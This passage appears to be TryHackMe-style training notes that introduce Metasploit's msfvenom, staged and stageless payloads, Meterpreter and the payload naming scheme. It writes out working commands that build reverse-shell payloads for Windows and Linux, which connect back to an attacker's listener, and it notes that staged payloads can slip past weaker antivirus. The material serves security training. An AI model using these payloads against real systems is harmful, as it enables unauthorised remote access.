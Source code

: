 Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (**e.g. .exe, .aspx, .war, .py**). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

The standard syntax for msfvenom is as follows:

- msfvenom -p <PAYLOAD> <OPTIONS>

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

- msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>



Here we are using a payload and four options:
- f {format}
Specifies the output format. In this case that is an executable (exe)
- o {file}
The output location and filename for the generated payload.
- LHOST={IP}
Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
- LPORT={port}
The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.
Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.
Stageless payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.
Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

Meterpreter

On the subject of Metasploit, another important thing to discuss is a Meterpreter shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell, however, that is a topic for another time. The downside to meterpreter shells is that they must be caught in Metasploit. They are also banned from certain certification examinations, so it's a good idea to learn alternative methodologies.

Payload Naming Conventions

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:

{OS}/{arch}/{payload}

For example:

- linux/x86/shell_reverse_tcp

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:

- windows/shell_reverse_tcp


For a 64bit Windows target, the arch would be specified as normal (x64).

Let's break the payload section down a little further.

In the above examples the payload used was **shell_reverse_tcp**. This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be:
- shell/reverse_tcp

As staged payloads are denoted with another forward slash (/).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

- windows/x64/meterpreter/reverse_tcp

A Linux 32bit stageless Meterpreter payload would look like this:

- linux/x86/meterpreter_reverse_tcp

Aside from the **msfconsole** man page, the other important thing to note when working with msfvenom is:

- msfvenom --list payloads

-----
Example liunx reverse shell for meterpreter - 

- msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST={MY IP ADDRESS} LPORT=443